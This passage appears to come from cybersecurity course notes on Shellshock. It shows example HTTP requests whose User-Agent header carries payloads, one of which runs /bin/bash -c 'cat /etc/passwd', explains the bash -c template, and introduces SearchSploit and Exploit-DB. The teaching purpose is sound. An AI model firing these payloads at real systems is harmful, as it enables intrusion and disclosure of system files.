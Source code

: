   ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; echo "haxxed"
  Connection: keep-alive
  ```

Some malicious codes can open TCP connections back to your machine or show user passwords.

   - For example: 

   ```bash
   GET /index.html HTTP/1.1
   Host: example.com
   User-Agent: () { :;}; /bin/bash -c 'cat /etc/passwd'
   Connection: keep-alive
   ```

Note the syntax. Shellshock payloads are often executed with the following template:

- `/bin/bash -c 'command'` runs the string `'command'` as a Bash command. This is different from passing a command directly because of how Bash handles the output. 

- Using `/bin/bash -c` helps preserve `stdout` more consistently.

Take a moment to address any remaining questions before proceeding.


### 02. Shellshock Payloads Activity

- [Activity File: Shellshock Payloads](activities/02_Shellshock_Payload/README.md)


### 03. Shellshock Payloads Activity 


### 04.  SearchSploit 

In the previous activity we created a custom payload for Shellshock. In this section, we will explore tools that allow us to search for and find existing exploit information from libraries. 

Today we will use a tool called **SearchSploit** to locally store a library of exploit information on our Kali machine, as well as the scripts needed to execute the exploits. 

**Exploit Database (Exploit-DB)** is a popular online database that contains publicly disclosed exploits, cataloged according to their Common Vulnerability and Exposure (CVEs) identifier.

- For example, Oracle Global Desktop 4.61.915 is an exploit listed on the Exploit-DB website.

   ![Exploit-DB](Images/EXPLOIT_DB.png)

